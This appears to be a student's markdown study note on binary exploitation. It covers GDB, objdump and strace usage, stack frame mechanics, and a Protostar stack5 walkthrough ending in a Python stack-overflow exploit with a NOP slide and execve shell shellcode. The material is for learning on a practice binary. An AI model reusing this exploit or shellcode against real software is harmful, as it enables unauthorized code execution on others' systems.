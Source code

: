 # Security Learning Note

## Binary Exploitation

### GDB

#### Learning Sources
+ [LiveOverflow Youtube channel](https://www.youtube.com/watch?v=VroEiMOJPm8&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=7&t=0s)

#### Before Cracking
+ ```file```: determine file type
+ ```strings```: print the sequences of printable characters in files

#### Basic disassembler and register tricks

+ ```set disassembly-flavor intel```: a more readable style
+ ```disassemble main```: display all assembler instructions of the ```main``` function
+ ```break *address```: for example, ```break *main```
+ ```si```: step one instruction
+ ```info registers```:
    - ```rip / eip```: instruction pointer (program counter)
    - ```eax```: the first 32 bits of the 64-bit ```rax``` register
+ ```set $eax=0```: set the register ```eax``` to 0
+ ```info proc mapping```: report the memory address space ranges accessible in a process.
+ x command: examine the content of a memory address [reference](https://visualgdb.com/gdbreference/commands/x)
+ define a "hook", example:
  ```
  (gdb) define hook-stop
  Type commands for definition of "hook-stop".
  End with a line saying just "end".
  >info registers
  >x/32wx $esp+0x1c
  >x/2i $eip
  >end
  ```

### objdump
+ ```objdump -d $FILENAME```: disassembler
+ ```objdump -x $FILENAME```: print header information

### strace & ltrace
+ ```strace```: trace system calls
+ ```ltrace```: trace library calls

### Other useful tools

+ Radare2, Ghidra, ...

### Parser Differential
+ Use fuzzing technique to make a program failed to be parsed by gdb, radare2, or whatever but able to be executed by ```execve```.

### Stack

+ ebp / rbp: contains the address of the bottom of the stack
+ esp / rsp: contains the address the top of the stack
+ When enter a function:
    ```
    push   ebp
    mov    ebp,esp
    and    esp,0xfffffff0
    ```
  (mask out the last 4 bits of esp is for alignment)

+ Procedures of calling a function:
    1. (old func) push the paramters to be passed on the stack
    2. (old func) push the next instruction to be executed on the stack
    3. (old func) execute ```call`` instruction
    4. (new func) push the value of *ebp* on the stack
    5. (new func) set *ebp* to the value of *esp*
    6. (new func) align the value of *esp*
    7. (new func) substract *esp* to create stack frame

+ Procedures of returning from a function:
    1. ```leave``` instruction: ```mov esp, ebp``` then ```pop ebp```
    2. ```ret``` instruction: get the next instruction pointer, which is on the top of the stack (pop)


### Protostar

#### [stack5](https://exploit.education/protostar/stack-five/)

1. calculate the length of padding
2. determine the value of *ebp* (does not matter in this problem)
3. determine the value of *eip*: where to place our shell code? (right after *$eip*)
4. add NOP(opcode: ```0x90```) slide: the address may not be the same every time since the data pushed on the stack can be different (e.g. environment variables)
    - make the *eip* point to the middle of the NOP slide (the exact position is not sure)
5. add shellcode: copy from [shell-storm](http://shell-storm.org/shellcode/)

!!! info
    use ```int3```(opcode: ```0xCC```) instruction to debug shellcode

!!! warning
    ```python exploit.py | /opt/protostar/bin/stack5``` does not work because when exploit.py terminates, the pipe is closed at the mean time. Thus, we should use ```cat``` to create a new pipe:
    ```bash
    (python exploit.py; cat) | /opt/protostar/bin/stack5
    ```

```python
import struct

padding = 'A' * 72
ebp = 'AAAA'
eip = struct.pack('I', 0xbffff6e0+40)
nopslide = '\x90' * 100
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding + ebp + eip + nopslide + shellcode
```